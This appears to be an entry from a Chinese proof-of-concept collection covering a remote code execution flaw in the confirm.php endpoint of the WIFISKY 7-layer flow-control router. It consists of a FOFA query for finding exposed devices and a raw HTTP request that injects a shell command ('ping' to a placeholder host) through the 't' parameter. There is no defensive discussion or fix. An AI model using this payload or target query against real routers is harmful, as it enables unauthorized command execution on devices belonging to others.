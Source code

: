 ## WIFISKY-7层流控路由器confirm.php接口处存在RCE漏洞


## fofa
```
title="WIFISKY 7层流控路由器"
```

## poc
```
GET /notice/confirm.php?t=;ping%20xxxx.com HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
![8035e20182b98d952c2482a5b18701cb](../../images/0f2f8a21-bd53-427b-ac86-8627f29efc92.png)
